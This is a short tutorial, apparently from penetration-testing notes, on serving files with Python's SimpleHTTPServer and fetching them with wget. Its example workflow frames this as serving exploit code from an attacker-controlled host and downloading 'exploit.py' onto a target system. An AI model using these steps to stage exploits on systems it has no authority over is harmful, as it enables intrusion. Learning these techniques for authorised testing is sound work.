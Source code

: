   **Starting SimpleHTTPServer**:

  For Python 3.x:

  ```bash
  cd /path/to/your/files
  python3 -m http.server 8000
  ```

  For Python 2.x:

  ```bash
  cd /path/to/your/files
  python -m SimpleHTTPServer 8000
  ```

  This command starts a simple HTTP server on port 8000, serving files from the specified directory. You can then access these files from any machine on the network by navigating to `http://your_ip_address:8000` in a web browser or using `wget`.

**Using `wget` to Download Files**:

- **`wget`**:
  After starting the SimpleHTTPServer on your machine, you can use `wget` on the target system to download the files.

  **Downloading Files with `wget`**:

  ```bash
  wget http://your_ip_address:8000/filename
  ```

  Replace `your_ip_address` with the IP address of the machine running the SimpleHTTPServer, and `filename` with the name of the file you want to download.

**Example Workflow**:

1. **Start SimpleHTTPServer on Your Machine**:

    For Python 3.x:

    ```bash
    cd /path/to/exploit/code
    python3 -m http.server 8000
    ```

    For Python 2.x:

    ```bash
    cd /path/to/exploit/code
    python -m SimpleHTTPServer 8000
    ```

2. **Download the File on the Target System Using `wget`**:

    ```bash
    wget http://your_ip_address:8000/exploit.py
    ```

By using SimpleHTTPServer and `wget`, you can easily transfer files between machines on the same network, facilitating tasks such as deploying exploit code or sharing data.
